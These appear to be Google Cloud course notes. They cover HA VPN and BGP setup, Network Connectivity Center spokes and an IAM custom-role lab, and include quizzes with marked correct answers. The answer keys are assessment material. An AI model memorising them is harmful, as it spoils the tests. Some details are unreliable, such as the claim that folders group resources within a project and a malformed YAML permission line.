12. Click **Create & Continue**.

###### Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-a

The next step is to configure BGP session for the VPN tunnel *transit-to-vpc-a-tu1*

1. Click

    

   Configure BGP Session for transit-to-vpc-a-tu1

   :

   - BGP session name: **transit-to-vpc-a-bgp1**
   - Peer ASN: **65001**
   - Allocate BGP IPv4 address: *Manually*
   - Cloud Router BGP IPv4 address: **169.254.1.1**
   - BGP peer IPv4 address: **169.254.1.2**

2. Click **Save and continue**.

- Repeat steps to configure BGP session for the VPN tunnel *transit-to-vpc-a-tu2*.

1. Click **Configure BGP Session for transit-to-vpc-a-tu2**:

- BGP session name: **transit-to-vpc-a-bgp2**
- Peer ASN: **65001**
- Allocate BGP IPv4 address: *Manually*
- Cloud Router BGP IPv4 address: **169.254.1.5**
- BGP peer IPv4 address: **169.254.1.6**

1. Click **Save and continue**.
2. Click on **Save BGP configuration**.
3. Click **OK**.

###### Add VPN tunnels from vpc-a to vpc-transit

Now create a pair of VPN tunnels from the *vpc-a* to *vpc-transit* to complete the bidirectional tunnel configuration using the following steps:

1. From the VPN page, select **Cloud VPN Gateways** *vpc-a-gw1-use4*:
2. Click to **Add VPN tunnel**.
3. For the Peer VPN Gateway, select **Google Cloud VPN Gateways**.
4. Select the **Project Id** associated with the lab.
5. Select the remote VPN gateway, **vpc-transit-gw1-use4**
6. For high availability, select **Create a pair of VPN tunnels**.
7. Select the Cloud Router, **cr-vpc-a-use4-1**
8. Click on the VPN tunnel to enter the tunnel details:
   - The Cloud VPN and peer VPN gateway interface information should be pre-populated.
   - Name: **vpc-a-to-transit-tu1**
   - IKE version: IKEv2
   - IKE pre-shared key: **gcprocks**
9. Click **Done**.
10. Repeat steps for the second tunnel:
    - Name: **vpc-a-to-transit-tu2**
    - IKE version: IKEv2
    - IKE pre-shared key: **gcprocks**
11. Click **Done**.
12. Click **Create & Continue**.

###### Add BGP sessions for each VPN tunnel configured from vpc-a to vpc-transit

The next step is to configure BGP session for the VPN tunnel: *transit-to-vpc-a-tu1*

1. Click

    

   Configure BGP Session for vpc-a-to-transit-tu1

   - BGP session name: **vpc-a-to-transit-bgp1**
   - Peer ASN: **65000**
   - Allocate BGP IPv4 address: *Manually*
   - Cloud Router BGP IPv4 address: **169.254.1.2**
   - BGP peer IPv4 address: **169.254.1.1**

2. Click **Save and continue**.

Repeat steps to configure BGP session for the VPN tunnel: *transit-to-vpc-a-tu2*

1. Click

    

   Configure BGP Session for vpc-a-to-transit-tu2

   - BGP session name: **vpc-a-to-transit-bgp2**
   - Peer ASN: **65000**
   - Allocate BGP IPv4 address: *Manually*
   - Cloud Router BGP IPv4 address: **169.254.1.6**
   - BGP peer IPv4 address: **169.254.1.5**

2. Click **Save and continue**.

3. Click on **Save BGP configuration**.

4. Click **OK**.

Once this step is complete the VPN tunnel status should reflect *Established* and BGP status should reflect *BGP established*.

##### **Step 4: Create a pair of VPN tunnels between vpc-transit to vpc-b**

- Repeat steps listed above (step 3) to create the bidirectional HA VPN tunnels between the vpc-transit and vpc-b networks using the details below.

###### Add VPN tunnels from vpc-transit to vpc-b

| Peer VPN gateway name | *vpc-b-gw1-usw2*        |
| --------------------- | ----------------------- |
| Cloud Router          | *cr-vpc-transit-usw2-1* |
| VPN tunnel one        | *transit-to-vpc-b-tu1*  |
| Pre-shared key        | *gcprocks*              |
| VPN tunnel two        | *transit-to-vpc-b-tu2*  |
| Pre-shared key        | *gcprocks*              |

###### Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-b

BGP session for tunnel *transit-to-vpc-b-tu1* :

| BGP session                   | *transit-to-vpc-b-bgp1* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65002*                 |
| Cloud Router BGP IPv4 address | 169.254.1.9             |
| BGP peer IPv4 address         | 169.254.1.10            |

BGP session for tunnel *transit-to-vpc-b-tu2* :

| BGP session                   | *transit-to-vpc-b-bgp2* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65002*                 |
| Cloud Router BGP IPv4 address | 169.254.1.13            |
| BGP peer IPv4 address         | 169.254.1.14            |

###### Add VPN tunnels from vpc-b to vpc-transit

| Peer VPN gateway name | *vpc-transit-gw1-usw2* |
| --------------------- | ---------------------- |
| Cloud Router          | *cr-vpc-b-usw2-1*      |
| VPN tunnel one        | *vpc-b-to-transit-tu1* |
| Pre-shared key        | *gcprocks*             |
| VPN tunnel second     | *vpc-b-to-transit-tu2* |
| Pre-shared key        | *gcprocks*             |

###### Add BGP sessions for each VPN tunnel configured from vpc-b to vpc-transit

BGP session for tunnel *vpc-b-to-transit-tu1* :

| BGP session                   | *vpc-b-to-transit-bgp1* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65000*                 |
| Cloud Router BGP IPv4 address | 169.254.1.10            |
| BGP peer IPv4 address         | 169.254.1.9             |

BGP session for tunnel *vpc-b-to-transit-tu2* :

| BGP session                   | *vpc-b-to-transit-bgp2* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65000*                 |
| Cloud Router BGP IPv4 address | 169.254.1.14            |
| BGP peer IPv4 address         | 169.254.1.13            |

##### **Step 5: Verify the all the VPN connections status from the VPN page**

- Scroll down the page to confirm that all connections are good.


Click *Check my progress* to verify the objective.

Create a pair of VPN tunnels between vpc-transit to vpc-a and vpc-b


Check my progress


#### Task 4. Create NCC hub resources and attach the HA VPNs as spokes

In this section you will create a VPC and create 2 subnets inside that VPC. This will all be done using gcloud CLI commands inside Google Cloud Shell.

Before you can perform any tasks for Network Connectivity Center, you must enable the Network Connectivity API.

1. From the **Navigation Menu**, search for **API & Services**.
2. Click on **Library**, and search for **Network Connectivity API**.
3. Select the **Network Connectivity API**.


1. Click **Enable**.
2. In this lab `gcloud` commands are used to configure the Network Connectivity Center. In order to authorize Cloud Shell to run the gcloud commands, open the Google Cloud Shell by clicking **Activate Cloud Shell**().
3. Run the following command to list the active account name:

```
gcloud auth list
```


1. Click **Authorize**.

##### Step 1: Create NCC hub

- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:

```
gcloud alpha network-connectivity hubs create transit-hub \
   --description=Transit_hub
```


##### Step 2: Create the spoke for branch office 1

- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:

```
gcloud alpha network-connectivity spokes create bo1 \
    --hub=transit-hub \
    --description=branch_office1 \
    --vpn-tunnel=transit-to-vpc-a-tu1,transit-to-vpc-a-tu2 \
    --region=us-central1
```


##### Step 3: Create the spoke for branch office 2

- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.

```
gcloud alpha network-connectivity spokes create bo2 \
    --hub=transit-hub \
    --description=branch_office2 \
    --vpn-tunnel=transit-to-vpc-b-tu1,transit-to-vpc-b-tu2 \
    --region=us-west2
```


Click *Check my progress* to verify the objective.

Create NCC hub resources and attach the HA VPNs as spokes


Check my progress


#### Task 5. Test the setup end to end deploying VMs in the remote branch office VPCs

After configuring the hub and its spokes, you should be able to pass traffic from the virtual machine (VM) instance in *branch office1* to the VM instance in *branch office2*. To do this, create a *vpc-a-vm-1* in *vpc-a* and vpc-b-vm-1 in *vpc-b* respectively.

First, create firewall rules: *fw-a* for *vpc-a-vm-1* in *vpc-a-sub1-use4* subnet and *fw-b* for *vpc-b-vm-1* in *vpc-b-sub1-usw2* subnet respectively to allow ingress SSH and ICMP traffic.


##### Step 1: Create Firewall rule for vpc-a

1. In the Cloud Platform Console, click **Navigation menu** () at the top left of the screen.
2. Then navigate to **VPC network** > **Firewall**.
3. Click on **CREATE FIREWALL RULE** and specify the details as shown.

 

1. Similarly, create firewall rule **fw-b** for **vpc-b**.

##### Step 2: Create VM in vpc-a

1. In the **Cloud console**, on the **Navigation menu** (☰), click **Compute Engine** > **VM Instances**, then click **Create instance**.

**Note:** This may take a minute to initialize for the first time.

There are many parameters you can configure when creating a new instance. Use the following for this lab:

1. In the **Machine configuration**

   Enter the values for the following fields:

   | Field       | Value           |
   | :---------- | :-------------- |
   | **Name**    | `vpc-a-vm-1`    |
   | **Region**  | `us-central1`   |
   | **Zone**    | `us-central1-c` |
   | **Series**  | `E2`            |
   | **Machine** | `e2-medium`     |

2. Click **OS and storage**

   Click **Change** to begin configuring your boot disk and select the values for:

   | Field                | Value                                   |
   | :------------------- | :-------------------------------------- |
   | **Operating system** | `Debian`                                |
   | **Version**          | `Debian GNU/Linux 11 (bullseye) x86/64` |
   | **Boot disk type**   | `balanced persistent disk`              |
   | **Size (GB)**        | `10 GB`                                 |

3. Click **Networking**

   - Network interfaces

      

     : click on

      

     ```
     default
     ```

      

     to edit.

     - **Network**: `vpc-a`
     - **Subnetwork**: `vpc-a-sub1-use4`

4. Once all sections are configured, scroll down and click **Create** to launch your virtual machine instance.

**Note:** The instance creation process is asynchronous. You can check on the status of the task using the top right-hand side **Activities** icon. Wait for it to finish - it shouldn't take more than a minute.

**Note:** If you receive an error when creating a VM, click into **Details**. Most likely you need to try again with a different zone.

Once finished, you should see the new virtual machine in the **VM Instances** page.

Similarly, create another VM in **vpc-b** using the following parameters:

1. In the **Machine configuration**

   Enter the values for the following fields:

   | Field       | Value           |
   | :---------- | :-------------- |
   | **Name**    | `vpc-b-vm-1`    |
   | **Region**  | `us-central1`   |
   | **Zone**    | `us-central1-c` |
   | **Series**  | `E2`            |
   | **Machine** | `e2-medium`     |

2. Click **OS and storage**

   Click **Change** to begin configuring your boot disk and select the values for:

   | Field                | Value                                   |
   | :------------------- | :-------------------------------------- |
   | **Operating system** | `Debian`                                |
   | **Version**          | `Debian GNU/Linux 11 (bullseye) x86/64` |
   | **Boot disk type**   | `balanced persistent disk`              |
   | **Size (GB)**        | `10 GB`                                 |

3. Click **Networking**

   - Network interfaces

      

     : click on

      

     ```
     default
     ```

      

     to edit.

     - **Network**: `vpc-b`
     - **Subnetwork**: `vpc-b-sub1-usw2`

4. Once all sections are configured, scroll down and click **Create** to launch your virtual machine instance.

Once finished, you should see the two virtual machines in the **VM Instances** page.

1. Copy the internal IP of **vpc-b-vm-1**.


Click *Check my progress* to verify the objective.

Create VMs in the remote branch office VPCs


Check my progress


##### Step 3: Run the ping command and verify connectivity to bo2 via NCC transit

To verify the end to end connectivity, run a ping test between *vpc-a-vm-1* and *vpc-b-vm-1* using the following steps:

1. SSH into **vpc-a-vm-1** by clicking on **SSH** on the right hand side of vpc-a-vm-1. This launches a SSH client directly from your browser.

**Note:** You can also SSH into the virtual machine. Learn more about SSH from the [Connect to an instance using ssh documentation](https://cloud.google.com/compute/docs/instances/connecting-to-instance).


1. Run a ping test from **vpc-a-vm-1** to the internal IP of **vpc-b-vm-1**.
2. You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.

```
ping -c 5 <INTERNAL_IP_OF_VPC-B-VM-1>
```


#### Congratulations!

This completes our lab for the Network Connectivity Center as a Transit hub with HA VPNs as spokes.


## Quiz

1. What is the purpose of a Cloud Router, and why is that important?

- To load balance traffic across multiple Google Cloud regions and zones.
- To dynamically exchange routing information using BGP between Google Cloud VPCs and other networks.
- To create and manage virtual private networks (VPNs) between on-premises networks and Google Cloud.
- To filter and restrict traffic based on predefined security rules.

This is correct. Cloud Router enables dynamic routing using BGP,  allowing Google Cloud VPCs to learn routes from on-premises networks and other cloud environments.

2. In Network Connectivity Center, what are the two main types of spokes that can be connected to a hub?

- Regional spokes and Global spokes              
- VPC spokes and Global spokes              
- Global spokes and Hybrid spokes              
- VPC spokes and Hybrid spokes

Correct. VPC Spokes and hybrid spokes are two types of Network Connectivity Center spokes


# 09 Managing Security in Google Cloud

## Foundations of Google Cloud Security

### Quiz

1. Which TWO of the following statements are TRUE regarding regulatory compliance on Google Cloud?

- Contacting your regulatory compliance certification agency is the only way to find out whether Google currently supports that particular standard.

- **Google's Cloud products regularly undergo independent verification of security, privacy, and compliance controls.**

​	Correct! Google works to achieve certifications against global standards so we can earn your trust.

- Google has no plans at this time to expand its already-extensive portfolio of regulatory compliance certifications.

- **Proper configuration of encryption and firewalls is not the only requirement for achieving regulatory compliance.**

  Correct! You also need data protection that is in compliance with the regulatory standards you wish to meet.

  

2. For Platform-as-a-Service (PaaS) offerings, which of the following is NOT a customer-managed component of the shared security responsibility model?

- **Network security**

  Correct! Network security is customer-managed for Infrastructure-as-a-Service (IaaS) offerings. This is Google-managed for Platform-as-a-Service (PaaS) offerings.

- Web application security

- Access policies

- Deployment


3. Which ONE of the following statements is TRUE concerning Google's built-in security measures?

- An organization's on-premises resources are not allowed to connect to Google Cloud in order to lower the risk of DDoS attacks.
- Customers always have the option to configure their instances to encrypt all of their data while it is "at rest" within Google Cloud.
- **To guard against phishing attacks, all Google employee accounts require the use of U2F compatible security keys.**

​	Correct! Google's internal security measures go beyond asking employees for a simple username and 	password.

- Only Google-managed encryption keys are allowed to be used within Google Cloud.


4. Which of the following statements is TRUE regarding Shared Security Responsibility Model in Google Cloud?

- **It is a shared responsibility between the customer and Google.**
- The customer is responsible for the complete stack including application security and access control.
- Google is responsible for the complete stack including application security and access control.

Correct! The customer is responsible for everything brought into the cloud as well as access management, the appropriate configuration of firewalls, app security, etc. Google is responsible for the security of the cloud (i.e. the underlying layer).


## Securing Access to Google Cloud

### Quiz

1. Which TWO of the following are considered authentication "best practices?"

- Requiring 2-Step Verification (2SV) is only recommended for super-admin accounts.
- **Avoid managing permissions on an individual user basis where possible.**

Correct! Assigning users to groups and giving the group role-based permissions is much easier to manage.

- Organization Admins should never remove the default Organization-level permissions from users after account creation.
- **You should have no more than three Organization admins.**

Correct! Too many admins can create additional risk as well - the general advice is no more than three admins per organization.

2. Which of the following statements is TRUE for the use of Cloud Identity?

- **Cloud Identity can work with any domain name that is able to receive email.**
- Your organization must use Google Workspace services in order to use Cloud Identity.
- You cannot use both Cloud Identity and Google Workspace services to manage your users across your domain.
- A Google Workspace or Cloud Identity account can be associated with more than one Organization.

Correct! You do not have to use Google Workspace services to use the Cloud Identity Free edition.


3. The main purpose of Google Cloud Directory Sync is to: (choose ONE option below)

- **Help simplify provisioning and de-provisioning user accounts.**
- Completely replace an Active Directory or LDAP service.
- Enable two-way data synchronization between Google Cloud and AD/LDAP accounts.

Correct! Managing user accounts manually can be tedious and time-consuming when an organization has many users.


## Identity and Access Management (IAM)

### LAB - Configuring IAM

#### Overview

In this lab, you will configure [Identity and Access Management (IAM)](https://cloud.google.com/iam) to grant roles and create custom roles. IAM lets you create and manage permissions for Google Cloud resources. IAM unifies access control for Google Cloud services into a single system and presents a consistent set of operations.

#### Objectives

In this lab, you will learn how to:

- Use IAM to implement access control.
- Restrict access to specific features or resources.
- Use predefined roles to provide Google Cloud access.
- Create custom IAM roles to provide permissions based on your own job roles.
- Modify custom roles.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Sign in with two user accounts

In this task, you sign in using two different user accounts. These accounts are used later in the lab to explore IAM access to specific resources.

##### Sign in to the Google Cloud Console as the first user

For this lab, Qwiklabs has provisioned you with two user names available in the **Connection Details** dialog.

1. Use a Chrome incognito window and sign in to the [Cloud Console](https://console.cloud.google.com/) with the **Username 1** provided in Qwiklabs. Note that both usernames use the same password.
2. Accept the Terms and Conditions for your temporary Google account.
3. Because this is a temporary account, do not add recovery option data or sign up for free trials.
4. When prompted, accept the Terms and Conditions for Google Cloud.

##### Sign in to the Cloud Console as the second user

1. Open another browser tab in your incognito window.
2. Browse to the [Cloud Console](https://console.cloud.google.com/).
3. Click on the user icon in the top-right corner of the screen, and then click **Add account**.
4. Sign in to the Cloud Console with the **Username 2** provided in Qwiklabs.

**Note:** At some points in this lab, if you sign out of the **Username 1** account, the **Username 2** account is deleted by Qwiklabs. So be sure to remain signed in to **Username 1**.

#### Task 2. Explore current roles in the IAM console

In this task, you explore the current roles for Username 1 and Username 2.

##### Navigate to the IAM console and explore roles

Make sure you are on the **Username 1** Cloud Console tab.

1. To view the **IAM** console, in the **Navigation menu**, click **IAM & admin > IAM**.
2. In the IAM console, locate the line for **Username 1**. Note that Username 1 has a few roles, including Project **Owner**.
3. Locate the line for **Username 2**. Note that Username 2 has a Project **Viewer** role.

**Note:** In the next three steps, be sure **NOT** to change any of the permissions. You will use the edit feature just to view the roles assigned.

1. Click the Edit principal button  on the line for **Username 2**.
2. Click **Viewer** to expand the list of possible roles. Do not change any of the roles yet, but you do have permissions to do so because Username 1 is project owner.
3. Click outside the role list to collapse it, and then click **Cancel**.
4. Switch to the Cloud Console tab for **Username 2**.
5. On the **Navigation menu**, click **IAM & admin > IAM**.
6. Click the Edit principal button  on the line for **Username 2**. You will not be able to edit the role. **Username 2** currently has access to view the project (Project Viewer), but does not have permissions to change anything.

#### Task 3. Prepare a resource for access testing

In this task, you create a Cloud Storage bucket and a sample text file. You test access to the sample file using Username 2.

##### Create a bucket and upload a sample file

1. Switch to the **Username 1** Cloud Console tab.
2. On the Google Cloud Console title bar, click **Activate Cloud Shell** (). If prompted, click **Continue**.
3. Run the following command to create a new storage bucket in `REGION`:

```
gcloud storage buckets create -l Region gs://$DEVSHELL_PROJECT_ID
```


1. Run the following command to create a sample text file in your Cloud Shell:

```
echo "this is a sample file" > sample.txt
```


1. Run the following command to copy the file to the bucket just created:

```
gcloud storage cp sample.txt gs://$DEVSHELL_PROJECT_ID
```


Click *Check my progress* to verify the objective.

Prepare a resource for access testing


Check my progress


##### Verify the Project Viewer role access

1. Switch to the **Username 2** Cloud Console tab.
2. Click **Activate Cloud Shell** () to open Cloud Shell. If prompted, click **Continue**.
3. Run the following command to verify that **Username 2** can view the file in the bucket:

```
gcloud storage ls gs://$DEVSHELL_PROJECT_ID
```


1. Run the following commands to create a file and try to upload it to the bucket:

```
echo "this is another file" > sample2.txt
gcloud storage cp sample2.txt gs://$DEVSHELL_PROJECT_ID
```


Username 2 cannot upload the file to Cloud Storage because it only has the Project Viewer role.

**Output:**

```
Copying file://sample2.txt 
ERROR: User xxx does not have permission to access b instance (or it may not exist): student-xx-xxxx@qwiklabs.net does not have storage.objects.create access to the Google Cloud Storage object.
```

#### Task 4. Remove project access

In this task, you remove the Project Viewer role for Username 2. You verify that Username 2 has lost access to the Cloud Storage bucket.

##### Remove the Project Viewer role for Username 2

1. Switch to the **Username 1** Cloud Console tab.
2. On the **Navigation menu**, click **IAM & admin > IAM**.
3. For **Username 2**, click on the pencil icon edit () button.
4. Click the delete icon next to the assigned role.
5. Click on **Save**.

Notice that the user has disappeared from the list! The user has no access now. Username 2 still has a Google Cloud account, but has no access to the project.

##### Verify that Username 2 has lost access

1. Switch to the **Username 2** Cloud Console tab.
2. Run the following command in Cloud Shell to verify that **Username 2** can no longer view the file in the bucket:

```
gcloud storage ls gs://$DEVSHELL_PROJECT_ID
```


**Output:**

```
ERROR: User xxx does not have permission to access b instance (or it may not exist): student-xx-xxxx@qwiklabs.net does not have storage.objects.list access to the Google Cloud Storage bucket.
```

1. If you can still see the file, the access change has not taken effect yet. Wait a minute and try the command again until you see `Permission denied on resource `.
2. From the **Username 2** console, try to access the Compute Engine service. On the **Navigation menu**, click **Compute Engine > VM instances**. You will not even be able to view the Compute Engine dashboard.


**Note:** **Username 2** still has a Google Cloud account, but has no access to the project from either the Cloud Console or the CLI.

#### Task 5. Add storage access

In this task, you add storage object viewer permissions for Username 2 and verify that the user can view the contents of the Cloud Storage bucket.

##### Add storage object viewer only permissions for Username 2

1. Copy the value of **Username 2** from the Qwiklabs **Connection Details** dialog.
2. Switch to the **Username 1** Cloud Console tab.
3. On the **Navigation menu**, click **IAM & admin > IAM**.
4. Click **GRANT ACCESS** to add a user.
5. For **New principals**, paste the **Username 2** value you copied from the Qwiklabs **Connection Details** dialog.

In the next step, you will use a predefined role to give Storage Object Viewer permissions to Username 2. Feel free to explore the available predefined roles.

1. For **Select a role**, select **Cloud Storage > Storage Object Viewer**.
2. Click **Save**.

##### Verify that Username 2 has storage access

1. Switch to the **Username 2** Cloud Console tab.

**Note:** **Username 2** doesn't have the Project Viewer role, so the user still can't see the project or any of its resources in the Cloud Console. For example, Username 2 still cannot view the Compute Engine dashboard. However, Username 2 has specific access to view Cloud Storage and can make API calls to view storage.

1. Run the following command in Cloud Shell to view the contents of the bucket you created earlier:

```
gcloud storage ls gs://$DEVSHELL_PROJECT_ID
```


As you can see, **Username 2** now has limited access to view Cloud Storage.

#### Task 6. Create custom roles

In this task, you create a custom role for a job role of Privacy Reviewer. This role performs data privacy reviews and needs permissions to view data in various different services, such as Cloud Storage, Cloud Bigtable, and Cloud Spanner

Google Cloud also allows for the creation of custom roles. Custom roles can be used to map your organization's specific job roles to Google Cloud permissions. A custom role can combine permissions from multiple Google Cloud services into one role and then share that new role across your entire organization.

**Note:** Generally it is better to use predefined roles first, because they are managed by Google. Creating and using custom roles allows for specific permissions to be set, but add operational overhead because they must be manually managed.


Custom roles can also be created based on an existing predefined role. However, if the predefined role that your custom role is based on changes after you create your custom role, those changes are not inherited by the custom role.

To create a custom role, a caller must possess the `iam.roles.createpermission`. By default, the owner of a project or an organization has this permission and can create and manage custom roles. In this lab, Username 1 is a project owner.

##### Create a custom role using the Cloud Console

1. Switch to the **Username 1** Cloud Console tab.
2. On the **Navigation menu**, click **IAM & admin > Roles**. This page currently displays all the predefined roles. Notice that there are many of them (there are several hundred pages of them).
3. Click **Create Role**.
4. Use the following values for the Role properties:

| **Title**          | **Description**                       | **ID**            | **Role launch stage** |
| ------------------ | ------------------------------------- | ----------------- | --------------------- |
| `Privacy Reviewer` | `Custom role to perform data reviews` | `privacyreviewer` | `Alpha`               |

Each of the placeholder values is described below:

- **Title** is a friendly title for the role, such as "Role Viewer."
- **Description** is a short description about the role, such as "My custom role description."
- **ID** must be unique.
- **Role launch stage** indicates the stage of a role in the launch lifecycle, such as Alpha, Beta, GA, or Disabled.

1. Click **Add permissions**.
2. In the **Filter** field, type `storage`, and then press **Enter**.
3. Select **storage.buckets.list**, **storage.objects.list**, and **storage.objects.get**, and then click **Add**. 

**Note:** To add required permissions you may need to see next pages.

1. Click **Add permissions** again.
2. In the **Filter** field, type `spanner`, and then press **Enter**.
3. Select **spanner.databases.get** and **spanner.databases.list**, and then click **Add**.
4. Click **Add permissions** again.
5. In the **Filter** field, type `bigtable`, and then press **Enter**.
6. Select **bigtable.tables.get**, **bigtable.tables.list**, and **bigtable.tables.readRows**, and then click **Add**.

Your permissions should look like this:


1. Click **Create**.

Your new custom role should now be displayed at the top of the Roles table.

##### Create a custom role using the CLI and YAML file

- Roles can also be created using the CLI and a YAML file. The YAML file contains the role definition and is in the form:

```
title: [ROLE_TITLE]
description: [ROLE_DESCRIPTION]
stage: [LAUNCH_STAGE]
includedPermissions:
- [PERMISSION_1]
- [PERMISSION_2]
```


- So the YAML for the role you just created in the Cloud Console would look like:

```
title: Privacy Reviewer
description: Custom role to perform data reviews
stage: ALPHA
includedPermissions:
- storage.buckets.list
- storage.objects.list
- storage.objects.get
- spanner.databases.get- spanner.databases.list
- bigtable.tables.get
- bigtable.tables.list
- bigtable.tables.readRows
```


Do not copy the YAML file above; you will create a different role using the CLI.

1. Verify that you are still on the browser tab for **Username 1**, and open Cloud Shell if it is not already open.
2. To create a new file called **role.yaml**, run the following command:

```
nano role.yaml
```


1. Copy the following role definition and paste into the nano editor in Cloud Shell:

```
title: App Viewer
description: Custom role to view apps
stage: ALPHA
includedPermissions:
- compute.instances.get
- compute.instances.list
- appengine.versions.get
- appengine.versions.list
```


1. Press **CTRL+X,** press **Y**, and then press **Enter** to save the file.
2. To create a new role, run the following command:

```
gcloud iam roles create app_viewer --project \
$DEVSHELL_PROJECT_ID --file role.yaml
```


You will see the following output.

**Output:**

```
Created role [app_viewer].
description: Custom role to view apps
etag: BwVshqVuvBs=
includedPermissions:
- appengine.versions.get
- appengine.versions.list
- compute.instances.get
- compute.instances.list
name: projects/xxxxxxxxxx/roles/app_viewer
stage: ALPHA
title: App Viewer
```

1. To list all the custom roles in your project, run the following command:

```
gcloud iam roles list --project $DEVSHELL_PROJECT_ID
```


You will see both roles you created.

Click *Check my progress* to verify the objective.

Create custom roles


Check my progress


#### Task 7. Use a custom role

In this task, you create a custom role and assign it to Username 2.

1. Make sure you are on the **Username 1** Cloud Console tab.
2. On the **Navigation menu**, click **IAM & admin > IAM**.
3. In the IAM console, locate the line for **Username 2** and click the Edit principal () button. **Username 2** should currently have the **Storage Object Viewer** role.
4. Click **Add another role**, and then click **Select a role**.
5. In the **Custom** category, select one of the roles you just created.
6. Click **Save**.

You have assigned **Username 2** to one of your custom roles.

#### Task 8. Maintain custom roles

In this task, you modify, disable, delete, and un-delete a custom role.

When using custom roles, it's important to track what permissions are associated with the roles you create, because available permissions for Google Cloud services evolve and change over time. Unlike Google Cloud predefined roles, you control if and when permissions are added or removed.

##### Modify role permissions

To modify an existing role, you need to first get the role's definition, update the definition, and then update the role.

1. Make sure you are on the **Username 1** Cloud Console tab.
2. To retrieve the **app_viewer** role's definition, run the following command in Cloud Shell:

```
gcloud iam roles describe app_viewer --project \
$DEVSHELL_PROJECT_ID
```


The describe command returns the following output.

**Output:**

```
description: Custom role to view apps
etag: [Etag value]
includedPermissions:
- appengine.versions.get
- appengine.versions.list
- compute.instances.get
- compute.instances.list
name: projects/[Project_ID]/roles/app_viewer
stage: DISABLED
title: App Viewer
```

1. Copy the output from your describe command. Be sure to copy from the `description` line to the `title` line.
2. Run the following command to create a new YAML file:

```
nano update-role.yaml
```


1. Paste the output from the describe command into the nano editor.
2. Add the following two lines just below the `includedPermissions:` lines:

```
- container.clusters.get
- container.clusters.list
```


1. Press **CTRL+X,** press **Y**, and then press **Enter** to save the file.
2. To update the **app_viewer** role, run the following command:

```
gcloud iam roles update app_viewer --project \
$DEVSHELL_PROJECT_ID --file update-role.yaml
```


The **app_viewer** role has been updated and two permissions were added.

Click *Check my progress* to verify the objective.

Modify role permissions


Check my progress


##### Disable a role

You can disable a custom role. When a role is disabled, any policy bindings related to the role are inactivated, which means that the permissions in the role will not be granted, even if you grant the role to a user.

1. Make sure you are on the **Username 1** Cloud Console tab.
2. To disable the **app_viewer** role created earlier in this lab, run the following command in Cloud Shell:

```
gcloud iam roles update app_viewer --project \
$DEVSHELL_PROJECT_ID --stage DISABLED
```


##### Delete a role

Roles that are deleted are suspended and cannot be used to create new IAM policy bindings. After the role has been deleted, existing bindings remain, but are inactive. The role can be un-deleted within seven days. After seven days, the role enters a permanent deletion process that lasts 30 days.

1. Make sure you are on the **Username 1** Cloud Console tab.
2. To delete the **app_viewer** role created earlier in this lab, run the following command in Cloud Shell:

```
gcloud iam roles delete app_viewer --project \
$DEVSHELL_PROJECT_ID
```


1. To list all the roles in the project, run the following command:

```
gcloud iam roles list --project $DEVSHELL_PROJECT_ID
```


Notice that the deleted **app_viewer** role is no longer listed.

1. To list all the roles in the project including the deleted roles, run the following command:

```
gcloud iam roles list --project $DEVSHELL_PROJECT_ID \
--show-deleted
```


##### Un-delete a role

Role can be un-deleted within seven days of being deleted.

1. To un-delete the **app_viewer** role, run the following command in Cloud Shell:

```
gcloud iam roles undelete app_viewer --project \
$DEVSHELL_PROJECT_ID
```


1. To list all the roles in the project, run the following command:

```
gcloud iam roles list --project $DEVSHELL_PROJECT_ID
```


Notice that the **app_viewer** role is listed again.

#### Review

In this lab, you did the following:

1. Used IAM to implement access control.
2. Restricted access to specific features or resources.
3. Used predefined roles to provide Google Cloud access.
4. Created custom IAM roles to provide permissions based on your own job roles.
5. Modified custom roles.

### Quiz

1. Which THREE of the following are IAM Objects that can be used to organize resources in Google Cloud?

- **Project**

  Correct! A project is a collection of resources that share the same billing and lifecycle. It's the primary unit of organization in Google Cloud.

- **Organization**

  Correct! An organization is the highest level of hierarchy in Google Cloud. It allows you to manage multiple projects and accounts with a central point of administration.

- Bucket

- Instance

- Container

- Role

- Member

- **Folder**

​	Correct! Folders are used to group resources within a project. They provide a logical way to organize and manage your resources.

2. Which TWO of the following statements about Cloud IAM Policies is TRUE?

- An organization policy can only be applied to the organization node.

- **A policy is a collection of access statements attached to a resource.**

  Correct! One way to think of it is, resource policies are a union of parent and resource.

- **A Policy binding binds a list of members to a role.**

  Correct! Members can be user accounts, Google groups, Google domains, and service accounts.

- A less restrictive parent policy will not override a more restrictive child resource policy.

  

3. Projects in Google Cloud provide many management-related features, including the ability to (choose TWO)

- **Selectively enable specific services and APIs.**

  Correct! You can also assign manager permissions more effectively,

- **Track and manage quota usage.**

  Correct! You can also track general resource usage as well.

- Balance server load between different Projects.

- Keep on-prem AD/LDAP accounts synced up with user's Google Cloud resources.


## Configuring Virtual Private Cloud for Isolation and Security

### LAB - Configuring VPC Firewalls

#### Overview

In this lab, you investigate [Virtual Private Cloud (VPC)](https://cloud.google.com/vpc) networks and create firewall rules to allow and deny access to a network and instances.

You begin by creating an automatic VPC network, a custom VPC network, and some VPC instances in those networks. You verify that the default-allow-ssh firewall rule is working and then compare this to the user created custom network to verify no ingress is allowed without custom firewall rules.

After deleting the default network, you use firewall rule priorities,to allow both ingress and egress of network traffic to your VMs.

##### Objectives

In this lab, you will learn how to:

- Create an auto-mode network, a custom-mode network, and associated subnetworks.
- Investigate firewall rules in the default network and then delete the default network.
- Use features of firewall rules for more precise and flexible control of connections.

#### Setup and requirements

